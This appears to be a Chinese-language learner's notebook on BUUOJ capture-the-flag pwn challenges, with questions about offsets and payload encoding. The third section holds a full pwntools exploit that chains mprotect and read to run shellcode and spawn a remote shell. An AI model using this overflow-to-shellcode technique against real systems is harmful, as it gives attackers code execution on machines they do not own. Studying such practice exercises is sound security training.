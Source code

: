 #### 111111111111111111111
![[Pasted image 20240923212242.png]]

这题就是要求第13个数组为17就行。通过汇编知道var[]是一个四字节的整数类型数组，在ida中显示的数据类型DWORD与QWORD的区别不是很清楚，暂时理解DWORD为32位的4字节数组，QWORD理解为64位的4字节数组。

![[Pasted image 20240923212252.png]]

这两个payload都可以打通，但是注意‘aa’是两个字节，‘a'是一个字节。

---

#### 22222222222222222222222

![[Pasted image 20240923212325.png]]

![[Pasted image 20240923212303.png]]

溢出的长度由自己定，但是我用p64(100),就没法过，为什么用b'100'就行？

---

#### 333333333333333333333333
![[Pasted image 20240923212349.png]]
这一题我用后门函数接上这两个十六进制数后没打通。

具体解释在这：

[https://www.cnblogs.com/Smera1d0/p/17860476.html](https://www.cnblogs.com/Smera1d0/p/17860476.html)

第二种做法是利用mprotect修改bss段权限，然后注入shellcode获得权限。

```
#coding=gbk
from pwn import *
p = remote("node5.buuoj.cn", 26290)
mprotect = 0x0806EC80
mem_addr = 0x080EB000
len = 0x100
ret = 0x0809e4c5  #esi ebx edx 
read_addr = 0x0806E140

offset = 56 #不用+4
payload = b'A' * offset + p32(mprotect)  # 溢出跳转到mprotect
payload += p32(ret)  # 寄存器
payload += p32(mem_addr)  # 第一个参数start
payload += p32(0x1000)  # 第二个参数len
payload += p32(0x7)  # 第三个参数prot
payload += p32(read_addr)  # 调用read
payload += p32(ret)  # 寄存器
payload += p32(0)  # fd
payload += p32(mem_addr)  # 需要读的地址
payload += p32(len)  # 读的长度
payload += p32(mem_addr)  # 返回到更改完rwx的bss段
p.sendline(payload)
shellcode = asm(shellcraft.sh(), arch='i386', os='linux')
p.sendline(shellcode)  # 对bss段执行shellcode
p.interactive()
```

---

#### 444444444444444444